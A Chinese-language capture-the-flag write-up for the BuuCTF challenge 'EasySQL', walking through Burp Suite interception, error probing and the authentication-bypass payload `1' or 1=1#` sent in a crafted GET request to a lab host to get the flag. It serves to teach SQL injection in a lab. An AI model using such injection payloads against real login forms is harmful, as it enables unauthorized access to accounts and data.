 # \[极客大挑战 2019\] EasySQL

![](https://img.shields.io/badge/%E9%A2%98%E7%9B%AE%E6%9D%A5%E6%BA%90-BuuCTF-blue?style=for-the-badge)
![](https://img.shields.io/badge/%E4%B8%AA%E4%BA%BA%E8%AF%84%E4%BB%B7-%E4%B8%AD%E7%AD%89-orange?style=for-the-badge)

## 前置工作

启动靶机，看到如下网页：

![](https://p.sda1.dev/13/06389bed26e67392efcea676663e7467/image.png)

根据题目名字，可以确定这是一道 SQL 注入题，打开 F12 翻看源代码，发现登录框是一个表单，将用户名和密码以 `Request Params`（其实就是 `GET`） 的形式传入 `check.php`

![](https://p.sda1.dev/13/f14587237edfdbfe7dbf1f5971768b8b/image.png)

## 确定请求体

但无法确定具体的请求，于是我们使用 Burp Suite 进行一次抓包，打开 Burp Suite，进入代理，打开内嵌浏览器，开启拦截

![](https://p.sda1.dev/13/d277053d8385513f65a4346863978579/image.png)

中间过程直接放行，直到点击`登录`的时候，暂时先不放行，查看请求体

![](https://p.sda1.dev/13/c57108edc284109f362325509aa9ec39/image.png)

```http
GET /check.php?username=root&password=123456 HTTP/1.1
Host: 49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

得出具体的请求方式是 `GET /check.php?username={username}&password={password}`

## 尝试注入

尝试性地往用户名输入框中输入 `root'`，密码随便输，提示如下

![](https://p.sda1.dev/13/4435ef1306e400b126532e0c56fd74c9/image.png)

提示发现这是 MariaDB 数据库，当 MySQL 做就行了，从这一段话中我们还能够猜测一下这条查询语句到底是什么，才导致会出这条错

```sql
SELECT * FROM XXX WHERE username='$user' AND password='$pass';
```

在这种情况下如果我的 `username` = `root'`，那么语句就会变成这样

```sql
SELECT * FROM XXX WHERE username='root'' AND password='$pass';
```

## 万能密码

可以看到这样就会产生格式错误，那么我们就得想办法绕过这个查询，就得用到万能密码，我们尝试将 SQL 语句更改成一种 100% 通过的样子：

```sql
SELECT * FROM XXX WHERE username='1' or 1=1#' AND password='1';
```

即 `username` = `1' or 1=1#`，`password` = `1`，其中 `username` 的值就是万能密码，将 Burp Suite 拦截到的请求进行修改，改成

```http
GET /check.php?username=1%27+or+1%3D1%23&password=1 HTTP/1.1
Host: 49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

之后放行该请求，得到 Flag，`flag{6965df19-7ebe-42f7-b396-14d380a5d9e7}`

![](https://p.sda1.dev/13/0e789a154b3ae53ff5f35d58a4c9baf2/image.png)